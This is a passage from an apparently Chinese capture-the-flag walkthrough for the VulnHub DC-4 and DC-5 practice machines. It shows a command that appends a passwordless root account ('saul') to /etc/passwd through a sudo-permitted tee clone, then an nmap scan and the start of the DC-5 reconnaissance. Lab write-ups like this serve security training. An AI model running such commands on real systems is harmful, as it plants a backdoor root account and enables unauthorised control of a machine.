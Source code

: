 
![](https://pic3.zhimg.com/80/v2-71e0273f937d2532d57ee46373a4fd2e_720w.webp)

  

我紧接着写入了一个 `saul` 账号到 `passwd` 里：

```text
echo "saul::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
#注释：
#[用户名]：[密码]：[UID]：[GID]：[身份描述]：[主目录]：[登录shell]
```

  

![](https://pic1.zhimg.com/80/v2-fc50c635ace6557573cbcee6c08a97f0_720w.webp)

  

最后也是在 `/root` 目录下拿到了 `Flag` ～

## DC5-通关手册

DC-5 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

The plan was for DC-5 to kick it up a notch, so this might not be great for beginners, but should be ok for people with intermediate or better experience. Time will tell (as will feedback).

靶机地址：[https://www.vulnhub.com/entry/dc-5,314/](https://link.zhihu.com/?target=https%3A//www.sec-in.com/outLinkPage/%3Ftarget%3Dhttps%3A//www.vulnhub.com/entry/dc-5%2C314/)

## 学习到的知识

`LFI`(本地文件包含)日志获取shell  
`wfuzz`工具的使用  
`screen`提权root

## 信息搜集

拿到 `IP` 先扫描端口开放服务：

```text
nmap -A -T 4 192.168.1.144
```

  

![](https://pic2.zhimg.com/80/v2-d562314f68c08c923ac986908f7df695_720w.webp)

  

它这边只开放了 `80`（http）和 `111`（RPC）两个端口服务！

RPC 他是一个`RPC`服务，主要是在`nfs`共享时候负责通知客户端，服务器的`nfs`端口号的。简单理解`rpc`就是一个中介服务。

我们先来到 `WEB` 端，但是没有什么可利用点，只有一个表单提交的地方：

```text
http://192.168.1.144/contact.php
```
